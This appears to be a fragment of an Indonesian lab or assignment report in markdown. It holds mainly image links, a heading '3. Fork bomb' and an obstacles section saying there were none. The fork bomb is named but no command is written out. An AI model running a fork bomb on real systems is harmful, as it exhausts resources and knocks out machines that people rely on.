


3. Fork bomb




#### Kendala

Tidak ada kendala
